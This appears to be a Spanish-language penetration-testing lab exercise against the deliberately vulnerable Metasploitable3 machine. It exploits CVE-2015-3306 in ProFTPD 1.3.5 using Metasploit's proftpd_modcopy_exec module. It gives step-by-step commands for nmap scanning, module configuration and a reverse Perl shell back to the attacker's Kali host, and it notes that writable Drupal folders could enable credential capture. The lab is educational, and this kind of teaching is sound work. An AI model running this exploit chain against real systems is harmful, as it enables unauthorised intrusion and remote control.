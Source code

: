 # Atacar la máquina Metasploitable3.

## Ejercicio 1: Explotar vulnerabilidad CVE-2015-3306 presente en ProFTPD 1.3.5.

Como ya hemos visto, ***nmap*** es la herramienta estrella para descubrir los servicios presente en una víctima que resida en la misma red local que el atacante. 


Procedemos a realizar un nmap de todos los puertos en la víctima (***192.168.20.13***). El parámetro ***-sV*** sondea los puertos abiertos para determinar la versión de cada servicio. Conocer la versión es importante para determinar si existen vulnerabilidades que se puedan implementar. (Nota: Tardará bastante tiempo. Tener paciencia)
```
nmap -sV 192.168.20.13 -p 0-65535
```

El resultado debe ser similar al siguiente. Observar como el rectángulo rojo marca que se ha detectado la aplicación ***ProFTPD 1.3.5***. También comprobar cómo el rectángulo azul indica que hay un servidor web presente en el puerto ***80***.

![ProFTPD 1.3.5](../img/180820221102.png)

Localizamos información sobre vulnerabilidades en ***CVE Details*** y encontramos que existe una de ***nivel 10***: https://www.cvedetails.com/cve/CVE-2015-3306/. Abrir el link y estudiarlo detenidamente.

En la parte inferior de la página puede observar que se dice que ***No hay ningún módulo de Metasploit relacionado con esta entrada CVE***, pero eso no es correcto, como veremos a continuación.

Una búsqueda un poco más detenida demuestra que Metasploit sí que puede explotar la vunerabilidad presente en ***ProFTP 1.3.5***: https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/

Como puede leerse en la documentación, el módulo ***proftpd_modcopy_exec*** de Metasploit, se aprovecha de la vulnerabilidad presente en la implementación del comando ***SITE CPFR/CPTO*** de ***ProFTPD***. Cualquier cliente (de FTP) no autenticado (No hace falta conocer credenciales) puede aprovecharse para copiar archivos en ***cualquier carpeta*** del sistema de archivos de la víctima. Los comandos de copia se ejecutan con los derechos (identidad) del servicio ProFTP, que por defecto corre bajo los privilegios del usuario ***nobody***. Mediante el uso de ***/proc/self/cmdline*** es posible subir a la víctima un archivo php que implemente una shell inversa, mediante el cual podemos tomar el control de la víctima.


Cargamos la consola de ***Metasploit*** si no estuviera iniciada.
```
msfconsole
```

Cargamos el módulo del exploit.
```
use exploit/unix/ftp/proftpd_modcopy_exec
```

Mostramos las opciones de configuración.
```
show options
```

La salida será la siguiente.
![Opciones del módulo](../img/180820221143.png)

Las configuraciones que debemos proporcionar son:

* *RHOSTS*: Obligatoria. Debemos poner la IP de la victima, que en nuestro escenario será ***192.168.20.13***.
* *RPORT*: Obligatoria. Una vez subido el payload PHP, el ataque se produce por medio de una Request HTTP. De esta forma, para que el ataque funcione, se necesita un servidor web en la víctima. Este hecho ha sido comprobado en el ejercicio anterior. Como puedes comprobar, no es necesario cambiar este valor (***80***), porque es el puerto correcto donde el servidor ***Apache*** está sirviendo peticiones.
* *RPORT_FTP*: Obligatoria. Este ataque necesita la presencia del servidor ***ProFTPD 1.3.5***, que como hemos comprobado anteriormente, está presente y escuchando en el puerto ***21***, por lo que no es necesario cambiar este ajuste.
* *SITEPATH*: Obligatoria. Es la ruta del directorio raíz del servidor web. En ***Apache*** es ***/var/www/html***. La configuración por defecto que puedes ver es ***/var/www***, que no coincide, por lo que debemos cambiarla a ***/var/www/html***. ***/proc/self/cmdline*** copiará en este directorio el payload php.
* *TARGETURI*: Obligatoria. Es la URI a la que se conectará el exploit. En ella se espera encontrar el payload php que será llamado por la Request HTTP.
* *TMPPATH*: El exploit no funciona copiando directamente el payload php a la carpeta ***/var/www/html***, si no que lo copia primero a una carpeta temporal y luego, desde ésta al directorio ***html***. Por lo tanto, la configuración debe tener una carpeta en la que no existan problemas de permisos. La candidata ideal es ***/tmp***, así que no modificamos esta configuración.

Mostramos los ***targets***, que en ***Metasploit*** son los servicios vulnerables.
```
show targets
```

La salida muestra que el único objetivo posible es ***ProFTP*** en su versión ***1.3.5***.

![show targets](../img/180820221222.png)

Ninguna otra versión de esta aplicación presenta la vulnerabilidad, por lo que una simple actualización de la misma cerraría la vulnerabilidad.

Configuramos el módulo para el ataque.
```
set RHOST 192.168.20.13
```
```
set SITEPATH /var/www/html
```

Comprobamos que todas las opciones requeridas (***RHOSTS***, ***RPORT***, ***RPORT_FTP***, ***SITEPATH***, ***TARGETURI*** y ***TMPPATH***) tienen valor.
```
show options
```

Mostramos los ***Payloads*** compatibles con este ataque:
```
show payloads
```

La salida mostrará lo siguiente.

![show payloads](../img/180820221239.png)

Debemos elegir un tipo de payload que pueda ejecutarse en la víctima. En la mayoría de los sistemas Linux se encuentran instalado ***Python*** y ***Perl***. Sería cuestión de ir probando si no se está seguro. En ***Metasplitable3*** están instalados todos.

Seleccionamos el payload
```
set payload payload/cmd/unix/reverse_perl
```

Cuando seleccionamos un payload, aparecen opciones adicionales a las del módulo, que debemos configurar.
```
show options
```

![opciones del payload](../img/180820221245.png)

* *LHOST*: Obligatoria. Siempre es la máquina que ataca, y a la que se conectará la shell inversa cuando el payload se active. En nuestro caso es la máquina ***Kali***, así que debemos poner en ella su IP (***192.168.20.9***)
* *LPORT*: Obligatoria. Es el puerto de escucha que abrirá la máquina ***Kali***, y al que se conectará la shell inversa del payload. Para que los perimetrales no presenten impedimentos, se podría poner en valor ***80*** o, mejor ***443***. Como en el laboratorio no hay este tipo de impedimentos, dejamos el valor propuesto.
```
set LHOST 192.168.20.9
```

Iniciamos el ataque.
```
run
```

Como se puede comprobar tenemos una sesion remota. 

![Sesión remota](../img/180820221305.png)

Podemos escribir comandos y ver el resultado.
```
whoami
```

También podemos mostrar la ayuda para ver las posibilidades que este payload ofrece.
```
help
```

![Comandos disponibles](../img/180820221308.png)

Además de ***bajar*** o ***subir*** archivos, podemos invocar una ***shell*** más potente, basada en ***python***
```
shell
```

Esto será posible si en la víctima se encuentra instalado ***Python***. Pulsamos la tecla ***Enter*** para activar la shell.

![Shell basada en Python](../img/180820221311.png)

Podemos movernos por el sistema con la identidad ***www-data***, y rápidamente vemos que tenemos permiso de escritura en el directorio ***drupal***, lo que permitiría iniciar otro tipo de ataque, por ejemplo para capturar credenciales.

![Permiso escritura en Drupal](../img/180820221317.png)

Salimos de la shell de Python.
```
exit
```

Pulsamos ***CTRL+C*** para abortar la sessión y volver al prompt de ***Metasploit***.











https://stuffwithaurum.com/2020/04/17/metasploitable-3-linux-an-exploitation-guide/






